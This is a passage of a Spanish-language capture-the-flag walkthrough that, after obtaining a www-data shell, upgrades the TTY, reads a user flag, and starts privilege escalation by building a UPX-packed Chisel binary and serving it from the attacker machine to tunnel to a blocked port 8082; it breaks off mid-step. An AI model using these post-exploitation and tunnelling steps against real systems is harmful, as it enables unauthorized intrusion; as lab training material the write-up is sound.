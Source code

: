 Ya hemos ganado accesso al sistema como el usuario *www-data*

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### Analizamos la maquina {-}

```bash
ls -l
cd /home
ls
cd /daniel
cat user.txt
```

Aqui encontramos un usuario **daniel** y tenemos derechos de escritura. Ya podemos visualizar la flag. Lo mas probable aqui
seria de convertirnos directamente en el usuario root.

## Escalada de privilegios {-}

### Rootear la maquina {-}

Algo que hemos visto, es que el puerto **8082** no se podia ver por reglas definidas en el sistema.
Como ya hemos pensado en tecnicas de port forwarding, instalamos **Chisel**.

1. Descarga de chisel y build

    ```bash
    git clone https://github.com/jpillora/chisel
    cd chisel
    go build -ldflags "-w -s" .
    upx chisel
    chmod +x chisel
    ```

1. Enviamos chisel a la maquina victima

    - en la maquina de atacante

        ```bash
        python3 -m http.server 80
        ```

